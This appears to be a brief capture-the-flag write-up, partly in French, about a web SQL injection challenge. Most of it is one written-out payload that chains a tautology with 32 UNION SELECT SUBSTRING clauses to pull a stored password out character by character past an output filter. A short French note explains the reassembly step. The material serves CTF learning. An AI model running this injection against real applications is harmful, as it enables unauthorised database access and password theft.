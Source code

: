 #WEB #sqli 
(solved by h0lm)

```sql ' or '1' = '1' UNION SELECT SUBSTRING(password, 1, 32) AS char_1 FROM table_ UNION SELECT SUBSTRING(password, 2, 31) AS char_2 FROM table_ UNION SELECT SUBSTRING(password, 3, 30) AS char_3 FROM table_ UNION SELECT SUBSTRING(password, 4, 29) AS char_4 FROM table_ UNION SELECT SUBSTRING(password, 5, 28) AS char_5 FROM table_ UNION SELECT SUBSTRING(password, 6, 27) AS char_6 FROM table_ UNION SELECT SUBSTRING(password, 7, 26) AS char_7 FROM table_ UNION SELECT SUBSTRING(password, 8, 25) AS char_8 FROM table_ UNION SELECT SUBSTRING(password, 9, 24) AS char_9 FROM table_ UNION SELECT SUBSTRING(password, 10, 23) AS char_10 FROM table_ UNION SELECT SUBSTRING(password, 11, 22) AS char_11 FROM table_ UNION SELECT SUBSTRING(password, 12, 21) AS char_12 FROM table_ UNION SELECT SUBSTRING(password, 13, 20) AS char_13 FROM table_ UNION SELECT SUBSTRING(password, 14, 19) AS char_14 FROM table_ UNION SELECT SUBSTRING(password, 15, 18) AS char_15 FROM table_ UNION SELECT SUBSTRING(password, 16, 17) AS char_16 FROM table_ UNION SELECT SUBSTRING(password, 17, 16) AS char_17 FROM table_ UNION SELECT SUBSTRING(password, 18, 15) AS char_18 FROM table_ UNION SELECT SUBSTRING(password, 19, 14) AS char_19 FROM table_ UNION SELECT SUBSTRING(password, 20, 13) AS char_20 FROM table_ UNION SELECT SUBSTRING(password, 21, 12) AS char_21 FROM table_ UNION SELECT SUBSTRING(password, 22, 11) AS char_22 FROM table_ UNION SELECT SUBSTRING(password, 23, 10) AS char_23 FROM table_ UNION SELECT SUBSTRING(password, 24, 9) AS char_24 FROM table_ UNION SELECT SUBSTRING(password, 25, 8) AS char_25 FROM table_ UNION SELECT SUBSTRING(password, 26, 7) AS char_26 FROM table_ UNION SELECT SUBSTRING(password, 27, 6) AS char_27 FROM table_ UNION SELECT SUBSTRING(password, 28, 5) AS char_28 FROM table_ UNION SELECT SUBSTRING(password, 29, 4) AS char_29 FROM table_ UNION SELECT SUBSTRING(password, 30, 3) AS char_30 FROM table_ UNION SELECT SUBSTRING(password, 31, 2) AS char_31 FROM table_ UNION SELECT SUBSTRING(password, 32, 1) AS char_32 FROM table_ -- ```

La sortie est filtré et n'affiche qu'un caractère, on afficher donc tout les chars et on les remets dans l'ordre 
![[Pasted image 20240406192841.png]]
